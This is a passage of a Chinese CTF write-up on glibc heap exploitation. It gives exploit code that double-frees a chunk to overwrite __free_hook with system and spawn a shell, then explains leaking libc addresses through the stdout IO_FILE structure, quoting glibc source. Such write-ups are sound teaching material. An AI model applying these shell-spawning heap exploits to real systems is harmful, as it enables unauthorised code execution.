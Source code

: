 ```
  vtable = 0x7fbd9726d2a0 <_IO_file_jumps>
}

```

再次利用double free修改__free_hook为one_adget即可。

```
create_null_puts(0x30,'aaaa\n','aaaa\n')#5
free_null_puts(5)  
free_null_puts(5)
create_null_puts(0x30,p64(free_hook)*2 + "\n","aaaa\n")#6
create_null_puts(0x30,"\n","aaaa\n")#7
create_null_puts(0x30,p64(system),"aaaa\n")#8     overwrite free_hook --> system
create_null_puts(0x10,"/bin/sh\x00","aaaa\n")#9   getshell
free_null_puts(9)
```

### 利用IO_FILE泄露libc
+ 参考链接：https://zszcr.github.io/2019/03/18/2019-3-18-tcache%E4%B8%8B%E7%9A%84%E5%87%A0%E9%81%93pwn%E9%A2%98/
+ 
源码：https://code.woboq.org/userspace/glibc/libio/fileops.c.html#_IO_new_do_write

泄露libc的涉及到了IO_FILE的利用，通过修改 puts函数工作过程中stdout 结构体中的 _IO_write_base ，来达到泄露libc地址信息的目的。下面来讲一下其中的一些原理。
关于puts函数的调用链(后面也有给出调试过程中看到的调用)：`puts函数在源码中是由 _IO_puts实现的，而 _IO_puts 函数内部会调用 _IO_sputn，结果会执行 _IO_new_file_xsputn,最终会执行 _IO_overflow`。主要的目标我觉得是在`_IO_new_file_overflow `里面。

`_IO_puts`源码：

```
int
_IO_puts (const char *str)
{
  int result = EOF;
  _IO_size_t len = strlen (str);
  _IO_acquire_lock (_IO_stdout);

  if ((_IO_vtable_offset (_IO_stdout) != 0
       || _IO_fwide (_IO_stdout, -1) == -1)
      && _IO_sputn (_IO_stdout, str, len) == len
      && _IO_putc_unlocked ('\n', _IO_stdout) != EOF)
    result = MIN (INT_MAX, len + 1);

  _IO_release_lock (_IO_stdout);
  return result;
}
```

_IO_new_file_overflow函数源码：

```
int
_IO_new_file_overflow (_IO_FILE *f, int ch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return EOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0 || f->_IO_write_base == NULL)
    ......
    ......
    }
  if (ch == EOF)
```